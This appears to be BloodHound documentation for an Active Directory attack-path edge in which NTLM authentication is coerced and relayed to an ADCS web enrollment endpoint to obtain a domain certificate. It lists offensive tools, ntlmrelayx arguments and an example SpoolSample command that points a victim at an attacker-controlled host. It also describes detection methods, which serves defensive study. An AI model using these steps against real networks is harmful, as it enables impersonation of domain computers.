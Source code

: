 ```yaml
---
title: CoerceAndRelayNTLMToADCS
description: The target computer can be coerced to authenticate via NTLM to an ADCS server, allowing an attacker to obtain a certificate for domain authentication.
---
```


<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg" alt="Applies to BloodHound Enterprise and CE"/>

This edge indicates that an attacker with "Authenticated Users" access can trigger SMB-based coercion from the target computer to their attacker-controlled host via NTLM. The authentication attempt from the target computer can then be relayed to an ESC8-vulnerable web enrollment endpoint of an Active Directory Certificate Services (ADCS) enterprise CA server. This allows the attacker to obtain a certificate enabling domain authentication as the target computer.

## Abuse Info

### Linux

1. Start the Relay Server

   The NTLM relay can be executed with [ntlmrelayx.py](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py). To relay to the enterprise CA and enroll a certificate, specify the HTTP(S) endpoint as the target and use the arguments: `--adcs --template <TEMPLATE_NAME>`.

1. Coerce the Target Computer

   Several coercion methods are documented here: [Windows Coerced Authentication Methods](https://github.com/p0dalirius/windows-coerced-authentication-methods).

   Examples of tools include:

   - [printerbug.py](https://github.com/p0dalirius/windows-coerced-authentication-methods)
   - [PetitPotam](https://github.com/topotam/PetitPotam)

   To trigger WebClient coercion (instead of regular SMB coercion), the listener must use a WebDAV Connection String format: `\\SERVER_NETBIOS@PORT/PATH/TO/FILE`.

### Windows

1. Start the Relay Server

   The NTLM relay can be executed with [Inveigh](https://github.com/Kevin-Robertson/Inveigh).

1. Coerce the Target Computer

   Several coercion methods are documented here: [Windows Coerced Authentication Methods](https://github.com/p0dalirius/windows-coerced-authentication-methods).

   Examples of tools include:

   - [SpoolSample](https://github.com/leechristensen/SpoolSample)
   - [PetitPotam](https://github.com/topotam/PetitPotam)

   To trigger WebClient coercion (instead of regular SMB coercion), the listener must use a WebDAV Connection String format: `\\SERVER_NETBIOS@PORT/PATH/TO/FILE`.

   Example:

   ```ps
   SpoolSample.exe "VICTIM_IP" "ATTACKER_NETBIOS@PORT/file.txt"
   ```

## Opsec Considerations

### Detection of NTLM Relay

NTLM relayed authentications can be detected by login events where the IP address does not match the computer's actual IP address. This detection technique is described in the [Detecting NTLM Relay Attacks](https://posts.bluraven.io/detecting-ntlm-relay-attacks-d92e99e68fb9) blog post.

### Detection of Certificate Usage

Authentication using the obtained certificate is another detection opportunity. If Kerberos authentication is used, a domain controller will generate Windows Event ID 4768 ("A Kerberos authentication ticket (TGT) was requested"). This event will include the attacker's IP address rather than the target computer's IP address. Similarly, for Schannel authentication, Event ID 4624 will reveal the incorrect IP address. These detection techniques are described in detail under DETECT2 in the [Certified Pre-Owned](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf) whitepaper.

## References

- [Hackndo: NTLM relay](https://en.hackndo.com/ntlm-relay/)
- [Microsoft: NTLM Overview](https://learn.microsoft.com/en-us/windows-server/security/kerberos/ntlm-overview)
- [Relay Your Heart Away: An OPSEC-Conscious Approach to 445 Takeover](https://posts.specterops.io/relay-your-heart-away-an-opsec-conscious-approach-to-445-takeover-1c9b4666c8ac)
- [Inveigh](https://github.com/Kevin-Robertson/Inveigh)
- [Windows Coerced Authentication Methods](https://github.com/p0dalirius/windows-coerced-authentication-methods)
- [PetitPotam](https://github.com/topotam/PetitPotam)
- [SpoolSample](https://github.com/leechristensen/SpoolSample)
- [Beyond the Basics: Exploring Uncommon NTLM Relay Attack Techniques](https://www.guidepointsecurity.com/blog/beyond-the-basics-exploring-uncommon-ntlm-relay-attack-techniques/)
- [printerbug.py](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py)
- [I'm bringing relaying back: A comprehensive guide on relaying anno 2022](https://trustedsec.com/blog/a-comprehensive-guide-on-relaying-anno-2022)
- [ntlmrelayx.py](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py)
- [2020, 2023, and 2024 LDAP channel binding and LDAP signing requirements for Windows (KB4520412)](https://support.microsoft.com/en-us/topic/2020-2023-and-2024-ldap-channel-binding-and-ldap-signing-requirements-for-windows-kb4520412-ef185fb8-00f7-167d-744c-f299a66fc00a)
- [Detecting NTLM Relay Attacks](https://posts.bluraven.io/detecting-ntlm-relay-attacks-d92e99e68fb9)
